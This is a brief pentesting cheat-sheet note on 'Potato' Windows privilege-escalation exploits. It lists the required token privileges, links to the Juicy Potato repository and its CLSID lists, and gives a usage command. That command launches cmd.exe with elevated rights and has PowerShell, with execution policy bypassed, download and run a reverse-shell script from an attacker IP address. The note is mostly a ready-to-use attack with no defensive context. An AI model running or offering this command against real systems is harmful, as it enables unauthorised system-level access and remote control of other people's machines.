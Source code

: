 # Potato Exploits

## Required Privileges

- `SeImpersonatePrivilege` OR
- `SeAssignPrimaryTokenPrivilege`

## Juicy Potato

Repo: [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)

List of CLSIDs:
- [https://github.com/ohpe/juicy-potato/tree/master/CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)
- Mirror: [http://ohpe.it/juicy-potato/CLSID/](http://ohpe.it/juicy-potato/CLSID/)

### Usage

#### 64-bit

```cmd
c:> JuicyPotatox86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://192.168.119.130:8080/minirev.ps1')" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```